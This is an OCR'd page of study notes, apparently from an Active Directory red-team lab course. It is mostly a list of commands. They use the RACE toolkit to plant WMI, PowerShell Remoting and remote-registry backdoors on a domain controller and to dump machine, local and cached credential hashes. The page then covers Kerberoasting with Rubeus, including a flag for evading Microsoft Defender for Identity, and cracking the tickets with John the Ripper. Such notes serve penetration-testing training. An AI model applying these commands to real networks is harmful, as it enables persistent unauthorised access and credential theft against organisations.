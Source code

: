 ACLs can be modified to allow non-admin users access to securable objects. Using the RACE toolkit -
C:\AD\Tools\RACE-master\RACE.ps1 (from - https://github.com/samratashok/RACE)
On local machine for student1 -
Set-RemoteWMI -SamAccountName student1 -Verbose
On remote machine for student1 without explicit credentials -
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose
On remote machine with explicit credentials. Only root\cimv2 and nested namespaces -
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -Credential Administrator -namespace 'root\cimv2' -Verbose
On remote machine remove permissions -
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc-namespace 'root\cimv2' -Remove -Verbose
Scurity Descriptors - Powershell Remoting
Using the RACE toolkit - PS Remoting backdoor not stable after August 2020 patches.
On local machine for student1 -
Set-RemotePSRemoting -SamAccountName student1 -Verbose
On remote machine for student1 without credentials -
Set-RemotePSRemoting -SamAccountName student1 -ComputerName dcorp-dc -Verbose
On remote machine, remove the permissions -
Set-RemotePSRemoting -SamAccountName student1 -ComputerName dcorp-dc -Remove
Security Descriptors - Remote Registry 
Using RACE or DAMP, with admin privs on remote machine
Add-RemoteRegBackdoor -ComputerName dcorp-dc -Trustee student1 -Verbose
As student1, retrieve machine account hash -
Get-RemoteMachineAccountHash -ComputerName dcorp-dc -Verbose
NOTE - Here If we got a MachineAccountHash we can implement a silver ticket! (as MachineAccount is a service so TGS it is) [RPCSS service gives us the rights to interact with DC using WMI]
Retrieve local account hash -
Get-RemoteLocalAccountHash -ComputerName dcorp-dc -Verbose
Retrieve domain cached credentials -
Get-RemoteCachedCredential -ComputerName dcorp-dc -Verbose
BONUS COMMAND! (WMI) --> gwmi -Class win32_operatingsystem -COmputerName dcorp-dc
5. Privilege Escalation -
Kerberosting - (3 types | classic is most effective)
Brute-forcing the service tickets offline for the cleartext passwords of the target application.
Offline cracking of service account passwords.
The Kerberos session ticket (TGS) has a server portion which is encrypted with the password hash of service account. This makes it possible to request a ticket and do offline password attack.
Because (non-machine) service account passwords are not frequently changed, this has become a very popular attack!
We will use only those user acocunts that are used to run services. 
NOTE --> [users whose SPN is not $null is treated as a service account by the KDC] It doesn't matter if there is a service running or not, you can ask for a service ticket for those accounts.
Find user accounts used as Service accounts -
ActiveDirectory module -
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
PowerView -
Get-DomainUser -SPN
Use Rubeus to list Kerberoast stats -
Rubeus.exe kerberoast /stats
Use Rubeus to request a TGS -
Rubeus.exe kerberoast /user:svcadmin /simple
To avoid detections based on Encryption Downgrade for Kerberos EType (used by likes of MDI - 0x17 stands for rc4-hmac), look for Kerberoastable accounts that only support RC4_HMAC -
Rubeus.exe kerberoast /stats /rc4opsec
Rubeus.exe kerberoast /user:svcadmin /simple /rc4opsec
Kerberoast all possible accounts -
Rubeus.exe kerberoast /rc4opsec /outfile:hashes.txt
Crack ticket using John the Ripper -
john.exe --wordlist=C:\AD\Tools\kerberoast\10kworst-pass.txt C:\AD\Tools\hashes.txt
Targeted Kerberosting - AS-REPs
If a user's UserAccountControl settings have "Do not require Kerberos preauthentication" enabled i.e. Kerberos preauth is disabled, it is possible to grab user's crackable AS-REP and brute-force it offline.